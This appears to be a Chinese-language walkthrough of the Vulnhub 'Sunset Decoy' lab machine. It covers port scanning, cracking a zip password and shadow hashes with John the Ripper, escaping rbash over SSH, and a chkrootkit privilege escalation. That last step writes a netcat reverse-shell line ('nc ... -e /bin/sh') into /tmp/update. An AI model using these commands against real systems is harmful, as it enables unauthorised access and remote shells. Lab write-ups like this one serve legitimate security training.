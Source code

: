 ```yaml
---

title: Vulnhub	505 SUNSET DECOY
date: 2020-07-07
---
```

考点：暴力穷举,chkrootkit,rbash绕过

靶机链接：<https://www.vulnhub.com/entry/sunset-decoy,505/>
<!--more-->
## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 10.0.2.15 |
| SUNSET DECOY | 10.0.2.13 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.13
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.13) [65535 ports]
Discovered open port 80/tcp on 10.0.2.13
Discovered open port 22/tcp on 10.0.2.13
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
```

### WEB测试

查看80端口，下载save.zip

```bash
$ zip2john save.zip >>save.txt
$ john save.txt --wordlist /usr/share/wordlists/rockyou.txt
```

得到zip压缩包密码`manuel`

![1](https://static.iihack.com/vulnhub/505/1.PNG)

解压缩得到一些文件

### 漏洞发现

尝试暴力破解系统密码

```bash
$ unshadow passwd shadow >pass.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt 

```

## 获得权限

### 靶机测试

![2](https://static.iihack.com/vulnhub/505/2.PNG)

成功获得一个用户的密码

现在登陆上去是rbash

使用参数获得bash

```bash
$ ssh 296640a3b825115a47b68fc44501c828@10.0.2.13 -t "bash -noprofile" 
```



## 提权

![3](https://static.iihack.com/vulnhub/505/3.PNG)

![4](https://static.iihack.com/vulnhub/505/4.PNG)

### chkrootkit

发现chkrootkit，尝试已存在漏洞[CVE-2014-0476](https://www.exploit-db.com/exploits/33899)

```bash
$ cd /tmp
$ echo "/usr/bin/nc 10.0.2.15 444 -e /bin/sh" > update
$ bash update
```

![5](https://static.iihack.com/vulnhub/505/5.PNG)
